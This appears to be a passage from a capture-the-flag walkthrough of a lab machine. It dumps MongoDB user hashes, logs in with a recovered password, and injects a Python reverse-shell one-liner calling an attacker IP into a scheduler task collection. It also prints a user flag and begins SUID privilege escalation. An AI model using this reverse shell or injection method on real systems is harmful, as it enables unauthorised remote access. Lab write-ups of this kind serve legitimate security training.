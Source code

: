 ```bash
mark@node:/tmp$ bsondump dump/myplace/users.bson 
{"_id":{"$oid":"59a7365b98aa325cc03ee51c"},"username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true}
{"_id":{"$oid":"59a7368398aa325cc03ee51d"},"username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false}
{"_id":{"$oid":"59a7368e98aa325cc03ee51e"},"username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false}
{"_id":{"$oid":"59aa9781cced6f1d1490fce9"},"username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}
2024-02-19T06:44:24.666+0000    4 objects found
```

Tom running app.js in schedular database

`mark@node:/var/www/myplace$ ps aux | grep tom
tom       1248  0.0  5.2 1008568 39960 ?       Ssl  05:26   0:01 /usr/bin/node /var/scheduler/app.js`

Connect to scheduler DB

`mongo -u mark -p 5AYRft73VtFpc84k localhost:27017/scheduler`

```bash
> show collections
tasks

# List content in tasks table - equivalent to 'select * from tasks'
> db.tasks.find()
The tasks collection does not contain any documents. Let’s add one that sends a reverse shell back to our attack machine.

# insert document that contains a reverse shell
db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.12\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})
```

And we got shell as `tom`

user.txt 349a2caaf7c9cf04499d4e4a6e697600

User tom is in sudo and admin group but privilege escalation exploit doesn't work

`uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)`

Earlier we had this

`mark@node:/opt$ ls -la /usr/local/bin/backup 
-rwsr-xr-- 1 root admin 16484 Sep  3  2017 /usr/local/bin/backup`

In app.js, this SUID binary is being called with -q and backup_key, also require directory to output to

```js
app.get('/api/admin/backup', function (req, res) {
    if (req.session.user && req.session.user.is_admin) {
      var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
      var backup = '';

      proc.on("exit", function(exitCode) {
        res.header("Content-Type", "text/plain");
        res.header("Content-Disposition", "attachment; filename=myplace.backup");
        res.send(backup);
      });

      proc.stdout.on("data", function(chunk) {
        backup += chunk;
      });
```